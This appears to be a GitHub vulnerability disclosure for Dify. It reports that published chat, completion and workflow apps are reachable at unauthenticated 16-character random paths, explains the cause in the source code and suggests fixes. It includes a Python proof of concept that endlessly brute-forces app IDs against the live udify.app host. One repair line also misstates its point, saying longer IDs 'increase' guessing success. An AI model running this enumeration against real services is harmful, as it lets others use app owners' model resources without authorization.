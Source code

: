 # dify api [completion/chat/workflow] Public interface traversable
dify api [completion/chat/workflow] There is a public interface traversal vulnerability. Unauthorized attackers can obtain device information by traversing the 16-bit API path and use the newly created model application.Unauthorized attackers can use the specific path behind the [completion/chat/workflow] API as the application identifier of the model API. After successfully obtaining the API, they can use the model application created by the Dify content creator through the traversed API, and can use the model resources of the Dify content creator without restriction, and even the physical host resources of the model.
# What is Dify 
is an open-source LLM app development platform. Dify's intuitive interface combines AI workflow, RAG pipeline, agent capabilities, model management, observability features and more, letting you quickly go from prototype to production.https://github.com/langgenius/dify

# Dify Public API
![image](https://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_17-51-28.png)
![image](https://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_17-55-34.png)
host/workflow/[A-Z0-9a-z]{16}


host/chat/[A-Z0-9a-z]{16}


host/completion/[A-Z0-9a-z]{16}


As can be seen from the screenshot, no authorization information is required to access the API like  [completion/chat/workflow].

According to the official documentation(https://docs.dify.ai/guides/application-publishing/launch-your-webapp-quickly), the API generated here will be published publicly on the internet even if it is released, and there is no place to set authentication on the page.
![image](https://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_18-00-24.png)
In addition, there is no prompt to users on the model application creation page, and there is no clear indication that the created model application will be public. It turns out that most users do not know that the newly created model application is public.

POC python
```import random
import requests

ascii_lowercase = 'abcdefghijklmnopqrstuvwxyz'
ascii_uppercase = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
ascii_letters = ascii_lowercase + ascii_uppercase
digits = '0123456789'

while True:
    letters_digits = ascii_letters + digits
    result = ""
    for i in range(16):
        result += random.choice(letters_digits)

    url = f"https://udify.app/chat/{result}"

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)',
        'Accept': '*/*',
        'Sec-Fetch-Site': 'cross-site',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'zh-CN,zh;q=0.9'
    }

    response = requests.get(url, headers=headers)
    print(response.text)
        

```
# Risk Description

The risk here can correspond to OWASP Top 10 API Security Risks – 2023：

1.API5:2023 - Broken Function Level Authorization 

2.API6:2023 - Unrestricted Access to Sensitive Business Flows 

3.API4:2023 - Unrestricted Resource Consumption

Unauthorized attackers can use the specific path behind the [completion/chat/workflow] API as the application identifier of the model API. After successfully obtaining the API, they can use the model application created by the Dify content creator through the traversed API, and can use the model resources of the Dify content creator without restriction, and even the physical host resources of the model.
# Why are model application parameters traversable?

In the Dify code api\events\event_handlers\create_site_record_when_app_created.py, there is a function handle (Create site record when an app is created). In this function, generate_code is called and a specified length of 16 is passed. Then, 16 characters are randomly selected from uppercase letters, lowercase letters and numbers as the model application identifier through Python's random.choice. By splicing these model application identifiers after the API [completion/chat/workflow], the model application can be accessed without authorization.
![image](https://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_18-11-43.png)
![image](https://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_18-11-55.png)
![image](http://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_18-12-11.png)
![image](https://github.com/happy0717/dify_api_-completion-chat-workflow-_Public_interface_traversable/blob/main/img/Snipaste_2025-03-12_18-12-31.png)
# Repair method

1.Increasing the length of the random path of the model application API, such as 64 or 128 bits, can increase the possibility of successful brute force guessing by malicious attackers.
2.Added an authentication switch for the [completion/chat/workflow] interface on the page, allowing users to choose whether to publicly release the model application
3.Remind users on the page that newly created model applications will be made public
4.Limiting API requests to [completion/chat/workflow] 
